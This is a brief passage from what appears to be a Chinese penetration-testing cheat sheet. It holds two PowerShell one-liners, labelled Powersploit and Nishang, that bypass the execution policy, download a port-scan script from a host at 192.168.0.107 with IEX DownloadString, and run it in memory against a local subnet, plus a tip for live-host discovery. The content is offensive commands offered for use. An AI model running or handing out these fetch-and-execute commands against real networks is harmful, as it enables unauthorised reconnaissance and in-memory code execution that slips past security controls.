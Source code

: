   #### Powersploit
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powersploit/Recon/Invoke-Portscan.ps1'); Invoke-Portscan -Hosts 192.168.0.0/24 –T 4 -Ports '1-65535' -oA C:\TEMP.txt"
  #### Nishang 
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/nishang/Scan/Invoke-PortScan.ps1'); Invoke-Portscan -StartAddress 192.168.0.1 -EndAddress 192.168.0.254 -ResolveHost -ScanPort"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/320.png)

	去掉scanport就是探测存活
